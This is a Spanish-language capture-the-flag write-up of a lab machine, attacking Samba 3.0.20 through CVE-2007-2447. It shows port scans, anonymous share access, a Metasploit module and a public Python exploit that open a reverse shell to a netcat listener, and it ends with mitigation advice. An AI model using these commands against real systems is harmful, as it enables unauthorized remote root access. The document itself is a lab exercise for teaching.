










## Información General

|Campo|Valor|
|---|---|
|**Plataforma**|whoami-labs|
|**Máquina**|Vulnerability|
|**Dificultad**|Fácil|
|**IP Objetivo**|172.17.0.2|
|**Autor**|elc0ket|

## Resumen del Ataque

La máquina expone un servicio Samba (puertos 139/445) identificado como **Samba smbd 3.0.20-Debian**, versión históricamente vulnerable a **CVE-2007-2447** (inyección de comandos a través de la opción `username map script`). Antes de explotar la vulnerabilidad, se enumeran los recursos compartidos (shares) vía sesión anónima, encontrando un share `tmp` con comentario sospechoso ("oh noes!") que contiene un subdirectorio `share` con la flag accesible directamente sin necesidad de autenticación ni ejecución de código. Para completar el ejercicio de explotación real de la vulnerabilidad reportada, se confirma la inyección de comandos de dos formas: primero con el módulo de Metasploit `exploit/multi/samba/usermap_script`, obteniendo una shell de comandos; y después de forma manual con un script en Python (basado en `pysmb`) que dispara el mismo bug, obteniendo una shell interactiva con privilegios de **root**.

## Técnicas Usadas

- Escaneo de puertos completo con Nmap (`-p-`)
- Escaneo de versión y scripts por defecto (`-sC -sV`)
- Escaneo de vulnerabilidades con Nmap (`--script vuln`)
- Enumeración de shares SMB con sesión anónima (`smbclient -L`, `smbclient //.../share -N`)
- Explotación de CVE-2007-2447 (Samba `username map script` Command Injection) vía Metasploit
- Explotación manual de CVE-2007-2447 con script Python (`pysmb`)
- Estabilización de shell (`script /dev/null -c bash`)
- Obtención de shell de comandos y shell interactiva como root

## Desarrollo

### 1. Escaneo inicial de puertos

```bash
nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 172.17.0.2
```



Dos puertos abiertos, ambos correspondientes al servicio SMB/Samba.

### 2. Escaneo de versión y scripts

```bash
nmap -p 139,445 -sC -sV -oN allports 172.17.0.2
```



Se confirma la versión exacta **Samba 3.0.20-Debian**, conocida por ser vulnerable a CVE-2007-2447. El nombre de equipo (`vulnerability`) y el hecho de que solo soporte SMB1 (falla la negociación SMB2) son indicios adicionales de una versión deliberadamente antigua.

### 3. Escaneo de vulnerabilidades

```bash
nmap -p 139,445 --script vuln 172.17.0.2
```



Los scripts de vulnerabilidad genéricos de Nmap no cubren CVE-2007-2447 directamente y no arrojan resultados positivos; es necesario identificar la vulnerabilidad manualmente a partir de la versión detectada.

### 4. Enumeración de shares con sesión anónima

```bash
smbclient -L //172.17.0.2/ -N
```



El login anónimo funciona sin restricciones. El share `tmp`, con el comentario sugerente **"oh noes!"**, destaca como punto de interés inmediato.

### 5. Acceso al share `tmp` y localización de la flag

```bash
smbclient //172.17.0.2/tmp -N
```



Dentro de `tmp/share` se localiza `flag.txt`, accesible sin autenticación ni ejecución de código.

### 6. Descarga y lectura de la flag

```bash
smb: \share\> get flag.txt
```

```bash
cat flag.txt
```


El nombre de la flag confirma explícitamente la vulnerabilidad objetivo del reto: inyección de comandos a través de `username map script`.

### 7. Explotación de CVE-2007-2447 con Metasploit

Para completar el ejercicio explotando realmente la vulnerabilidad reportada (más allá del acceso directo al share), se recurre a Metasploit:

```bash
msfconsole -q
search samba 3.0.20
```

```bash
use exploit/multi/samba/usermap_script
show options
```

```bash
set RHOSTS 172.17.0.2
set LHOST 172.17.0.1
show payloads
set payload cmd/unix/reverse
exploit
```



Se obtiene una shell de comandos (no interactiva) que confirma ejecución remota de código a través de la vulnerabilidad, verificando la misma flag ya obtenida vía SMB.

### 8. Explotación manual de CVE-2007-2447 con script Python

Como alternativa manual al módulo de Metasploit, se utiliza un exploit público en Python que requiere la librería `pysmb`:

```bash
git clone https://github.com/h3x0v3rl0rd/CVE-2007-2447.git
cd CVE-2007-2447
```

```bash
pip3 install pysmb --break-system-packages
```

Verificación de la instalación:

```bash
python3 -c "import smb; print('pysmb is installed')"
```



### 9. Ejecución del exploit manual

Con el listener en escucha:

```bash
nc -nlvp 4444
```

Se lanza el exploit apuntando al objetivo:

```bash
python3 smb3.0.20.py -lh 172.17.0.1 -lp 4444 -t 172.17.0.2
```



Se estabiliza la shell recibida antes de continuar:

```bash
script /dev/null -c bash
```

### 10. Verificación de privilegios y flag

```bash
root@vulnerability:# whoami
```



A diferencia del payload de Metasploit (`cmd/unix/reverse`), esta variante manual entrega una shell interactiva con privilegios de **root** directamente.

```bash
root@vulnerability:/tmp# cd share
root@vulnerability:/tmp/share# cat flag.txt
```



Se confirma nuevamente la misma flag, esta vez con ejecución de código como root sobre el sistema comprometido.

## Lecciones Aprendidas

- Versiones antiguas de Samba (3.0.20 y anteriores) con `username map script` habilitado son vulnerables a inyección de comandos remota sin autenticación — CVE-2007-2447 sigue siendo un clásico de laboratorios de CTF por su simplicidad y alto impacto.
- No siempre es necesario explotar la vulnerabilidad "real" del reto para obtener la flag: el acceso anónimo a shares SMB mal configurados (`tmp` en este caso) puede exponer archivos sensibles directamente, sin necesidad de RCE.
- Aun así, verificar y explotar la vulnerabilidad reportada (más allá del "atajo" de leer el share) aporta rigor al writeup y demuestra el impacto real del fallo, incluyendo la escalada implícita a root que ofrece la explotación manual.
- Distintos payloads de un mismo exploit pueden dar resultados muy distintos: el payload `cmd/unix/reverse` de Metasploit entrega una shell de comandos simple (sin `whoami` funcional por limitaciones del intérprete), mientras que el script manual en Python entrega una shell interactiva completa como root.
- Los entornos Kali/Debian modernos bloquean instalaciones de pip fuera de entornos gestionados (PEP 668); `--break-system-packages` es una solución rápida y válida para herramientas de un solo uso en CTFs.
- Comprobar la instalación de una dependencia (`python3 -c "import modulo"`) antes de ejecutar un exploit ahorra tiempo de depuración si algo falla a mitad de la ejecución.
- Aun con una shell de root ya obtenida, sigue siendo buena práctica estabilizarla (`script /dev/null -c bash`) antes de continuar navegando el sistema, para evitar perder la sesión.

## Medidas de Mitigación

- Actualizar Samba a una versión moderna y parcheada; la rama 3.0.x está obsoleta y sin soporte desde hace años.
- Deshabilitar la opción `username map script` en `smb.conf` si no es estrictamente necesaria; es el vector directo de esta vulnerabilidad.
- Deshabilitar el acceso anónimo (`guest`) a los shares SMB, especialmente en shares con contenido sensible como `tmp`.
- Aplicar principio de mínimo privilegio en los shares: evitar exponer directorios de sistema o de trabajo (`/tmp`) directamente como recursos compartidos.
- Habilitar `message signing` en SMB (estaba deshabilitado por defecto en este caso), lo que mitiga ataques de relay y manipulación de sesión.
- Segmentar la red y restringir el acceso a los puertos 139/445 únicamente a hosts y usuarios que realmente necesiten el servicio SMB.
- Monitorizar logs de Samba en busca de patrones de inyección de comandos en los campos de autenticación.